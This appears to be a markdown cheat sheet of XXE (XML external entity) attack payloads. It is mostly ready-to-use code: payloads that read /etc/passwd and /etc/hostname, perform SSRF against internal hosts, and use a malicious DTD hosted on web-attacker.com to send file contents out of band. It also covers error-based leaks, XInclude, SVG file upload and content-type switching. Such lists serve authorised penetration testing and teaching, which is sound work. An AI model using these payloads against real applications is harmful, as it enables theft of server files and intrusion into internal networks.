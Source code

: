 # XXE Payloads

## Exploiting XXE to retrieve files
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Detecting blind XXE using out-of-band (OAST) techniques

### Out-of-band interaction
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

### Out-of-band interaction with parameter entity
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

## Exploiting blind XXE to exfiltrate data out-of-band
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Exploiting blind XXE to retrieve data via error messages
Create a malicious DTD file with the following content:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
and submit the following XXE payload to the vulnerable application
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

## Xinclude attack
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XXE attack via file upload
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

## XXE via modified content type
Most POST requests use a default content type that is generated by HTML forms, such as ``application/x-www-form-urlencoded``. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format.
